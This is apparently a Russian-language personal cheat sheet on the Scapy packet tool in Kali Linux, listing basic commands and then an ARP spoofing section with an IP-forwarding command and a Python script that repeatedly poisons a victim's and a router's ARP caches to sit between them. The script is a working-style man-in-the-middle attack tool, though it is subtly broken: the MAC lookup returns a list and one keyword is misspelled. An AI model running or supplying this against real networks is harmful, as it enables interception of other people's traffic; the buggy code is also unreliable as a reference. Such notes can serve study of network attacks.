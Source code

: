 ***
Фреймвор, написанный на python, предустановлен в Kali. 
***
## Команды

**help() / help("func")** - помощь пайтона

**ls() / ls(протокол)** - поддерживаемые протоколы / их параметры
>**someVar = протокол()** - создаст пакет
**someVar1 = someVar2/someVar3** - склеит новый пакет из ранних
**someVar.display()** - проверить параметры и их значения
**send(someVar) / sendp(someVar)** - отправить в сеть пакет

dir() - предустановленные функции.

***
## ARP spoofing
1. Для атаки необходимо притвориться **для компьютера жертвы роутером, а для роутера - компьютером жертвы.**
2. Настроить свою систему под имитацию роутера:
	```
	echo 1 > /proc/sys/net/ipv4/ip_forward
	```
	
Простейший пример на python3:
```
#!/usr/bin/env python

import scapy.all as scapy
import time

def get_mac(ip):
	arp_request = scapy.ARP(pdst=ip)
	broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
	arp_request_broadcast = broadcast/arp_request
	answer_list = scapy.srp(arp_request_broadcast, timeout=2, verdose=False)[0]
	
	return answer_list

def spoof(target_ip, spoof_ip):
	target_mac = get_mac(target_ip)
	packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
	scapy.send(packet, verbose=False)

sent_packets_count = 0
try:
	while True:
		spoof(<ip жертвы>, <ip роутура>)
		spoof(<ip роутура>, <ip жертвы>)
		sent_packets_count += 2
		print("\r[+] Packets sent: " + str(sent_packets_count), end="")
		time.sleep(2)
except KeyboardInterrupt:
	print("\n[+] Detected CTRL + C ... Quitting.")
```